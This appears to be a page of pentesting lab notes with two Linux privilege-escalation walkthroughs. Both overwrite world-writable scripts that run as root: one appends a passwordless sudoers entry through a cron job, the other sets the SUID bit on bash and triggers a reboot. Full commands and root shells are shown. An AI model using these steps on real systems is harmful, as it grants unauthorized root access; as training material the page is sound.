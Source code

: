 ```yaml
---
layout: default
title: Overwrite File
parent: Misc Exploits
nav_order: 1
---
```


# Example 1: Overwrite File

---

## Enumerate Files

There is a _/home/student/message_ file that is owned by root.

```bash
bash-4.4# ls -la /home/student
total 40
drwxr-xr-x 5 student student 4096 Jan 21  2022 .
drwxr-xr-x 4 root    root    4096 Jan 21  2022 ..
-rw------- 1 student student   62 Jan 21  2022 .bash_history
-rw-r--r-- 1 student student  220 Jan 21  2022 .bash_logout
-rw-r--r-- 1 student student 3772 Jan 21  2022 .bashrc
drwx------ 2 student student 4096 Jan 21  2022 .cache
drwx------ 3 student student 4096 Jan 21  2022 .gnupg
-rw-r--r-- 1 student student  807 Jan 21  2022 .profile
drwxrwxr-x 2 student student 4096 Jan 21  2022 .ssh
-rw------- 1 root    root      27 Jan 21  2022 message
```

There is also a file named message at _/tmp/message_

```bash
bash-4.4# find / -name message

/tmp/message
```

The _/tmp/message_ file is overwritten every minute

```bash
bash-4.4# ls -la /tmp/message
-rw-r--r-- 1 root root 27 Dec 19 03:42 /tmp/message

bash-4.4# ls -la /tmp/message
-rw-r--r-- 1 root root 27 Dec 19 03:43 /tmp/message
```

Some script/binary is copying this file from the student home directory to /tmp directory.

Let's try to search that script. If the script is doing a simple copy operation, it must have the source destination of the file in it.

Let's try to locate that by using the grep command.

```bash
bash-4.4# grep -nri "/tmp/message" /usr
/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
/usr/local/share/copy.sh:3:chmod 644 /tmp/message
```

We have found the script location, which is copying the message file to the /tmp directory, _/usr/local/share/copy.sh_.

Let's check the permissions on this script file and its contents.

```bash
bash-4.4# ls -la /usr/local/share/copy.sh
-rwxrwxrwx 1 root root 74 Jan 21  2022 /usr/local/share/copy.sh

bash-4.4# cat /usr/local/share/copy.sh
#! /bin/bash
cp /home/student/message /tmp/message
chmod 644 /tmp/message
```

As the script file is writable by the current student user, we can modify the copy.sh file to execute our commands.

A root cron job manages this script, which allows us to run commands as root after modifying the file.

We will use the printf command to replace the original code with the following lines.

```bash

printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers'
```

These lines will push an entry into the /etc/sudoers file, which will allow the student user to run all commands as root using sudo without providing any password.

Let's edit the copy.sh script.

```bash
bash-4.4# printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers\n' > /usr/local/share/copy.sh
bash-4.4# cat /usr/local/share/copy.sh
#! /bin/bash
echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers
```

Now, we will wait for one minute to allow the cron job to execute the copy.sh script where we have added our code to gain root access.

After one minute, we will check the current sudoers list.

```bash
bash-4.4# sudo -l
Matching Defaults entries for student on ip-10-4-16-223:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on ip-10-4-16-223:
    (root) NOPASSWD: /etc/init.d/cron
    (root) NOPASSWD: ALL
```

We can observe that we can use sudo to access all resources on the system.

Let's switch to the root user using sudo.

```bash
bash-4.4# sudo su
root@ip-10-4-16-223:/home/student# whoami
root

root@ip-10-4-16-223:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
```

# Example 2: Overwrite File

---

## Check Sudo Permissions

```bash
tre@tre:~$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
```

We have the ability to run the _/sbin/shutdown_ command.

Maybe that will come in handy later.

## Check Processes

```bash
tre@tre:~$ ps aux | grep root

root       417  0.0  0.1   6728  3268 ?        Ss   18:57   0:02 /bin/bash /usr/bin/check-system

```

Checking _/usr/bin/check-system_

```bash
tre@tre:~$ ls -la /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system

```

We can overrite the file.

```bash
tre@tre:~$ echo "chmod +s /usr/bin/bash" > /usr/bin/check-system
tre@tre:~$ cat /usr/bin/check-system
chmod +s /usr/bin/bash
```

Now we can leverage the sudo permissions on _/sbin/shutdown_

```bash
tre@tre:~$ sudo /sbin/shutdown -r


┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ ssh tre@192.168.213.84
tre@192.168.213.84's password:
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Nov 13 23:04:58 2023 from 192.168.45.217
-bash-5.0$ /usr/bin/bash -p
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(tre)
bash-5.0# whoami
root

```
